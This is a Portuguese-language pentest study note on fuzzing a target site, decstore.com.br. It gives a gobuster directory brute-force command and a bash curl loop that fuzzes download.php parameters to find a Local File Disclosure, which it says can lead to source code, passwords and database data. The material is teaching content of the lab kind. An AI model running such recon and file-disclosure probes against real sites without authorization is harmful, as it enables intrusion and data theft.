


---

---

---
>Titulo: Dia 2.4 - Realizando Fuzzing
>Fase: Fuzzing
>Dia: 2

[[../../0-assets/vulnerabilities/LFD]] | [[../../0-assets/tools/Gobuster]]

 #LFD #Fuzzing #Enumeration #Bash 

---

Novamente nós iremos utilizar o [[../../0-assets/tools/Gobuster]] para mapear os possíveis diretórios do nosso escopo "decstore.com.br"

---

Iniciaremos com:
```bash
gobuster dir -u http://decstore.com.br/ -w /usr/share/dirb/wordlists/big.txt -e -t 100 -r --no-error- -o arquivos -x php,bkp,old,txt,xml
```

> Não se assute com o tamanho do comando, irei te explicar abaixo o que cada parte representa, mas no [Interfaces administrativa](../1-mapeando-host/1.2-interfaces-administrativas.md), tem outro exemplo para reforçar o seu entendimento.
```python
Gobuster       | Ferramenta usada no bruteforce
dir            | Opção para diretórios
-u             | Definimos que uma URL será o alvo
<ESCOPO>       | Aqui nós iremos definir nosso escopo alvo
-w | Wordlist  | Wordlist no diretório do atacante
-e             | Mostrar a URL completa do que encontrou
-t 100         | Até 100 threads simultâneas(scan mias rápido)
-r             | Se a página redirecionar, seguir o redirecionamento
--no-error     | Não retornar nenhum erro
-o | nome      | Salvar essa saída como "name?"
-x | extensões | Extensões que queremos pesquisar

```

>Lembrando o valor de resposta de cada código:
>200 - Sucesso
>403 - Existe, mas você não tem permissão de acesso

Assim fica fácil saber o que dá para acessar direto ou o que pode ser acessado por meio de escalabilidade de acesso.

---

Agora nesse arquivo "arquivos", nós podemos utilizar o grep para filtrar apenas o que retornou o código "200". 
```bash 
grep 200 arquivos
```

Onde irá conseguir ver isto:


----
Agora para testarmos os comportamentos para esses arquivos que descobrimos.

Vamos criar uma mini wordlist e um script de uma linha.

```bash
## Garantir que estamos no diretório certo

## Criar a Wordlist
sudo nano lista

### Dentro da lista, vamos inserir nomes para testar
page
url
pg
file
files
arquivo
arquivos
id
```

Agora em uma linha em bash para testar:
```bash
for i in $(cat lista); do curl http://decstore.com.br/download.php?$i=download.php ;done
```

Explicação do código:

```
for            | Inicia um loop de repetição no shell
i              | Variável que recebe cada valor lido da lista
in             | Define a origem dos valores que alimentarão o loop
$(cat lista)   | Lê o arquivo e injeta cada linha como valor para o loop
do             | Início do bloco de comandos que será executado
curl           | Ferramenta para realizar requisições HTTP
http://...     | Endpoint alvo da requisição
?              | Indica o início dos parâmetros GET
$i             | Nome do parâmetro GET, vindo do arquivo "lista"
=asdasdasd     | Valor fixo atribuído ao parâmetro testado
;              | Separador de comandos em linha única
done           | Finaliza o loop for

```

E irá retornar o seguinte parâmetro:



Ele retornou o código fonte do arquivo PHP, isso é uma vulnerábilidade se chama LFD (Local File Disclosure) e pode ser escalado, pois a partir daqui poderemos testar com outros arquivos além do Downloads, com o index.php, e até podendo nos levar a informações pessoais, senhas, informações de bancos de dados.

E conseguimos isso com um simples comando em bash, uma "gambiarra", assim conseguindo vasculhar o código fonte dessa aplicação.

---
#Gobuster 
#recon #mapping

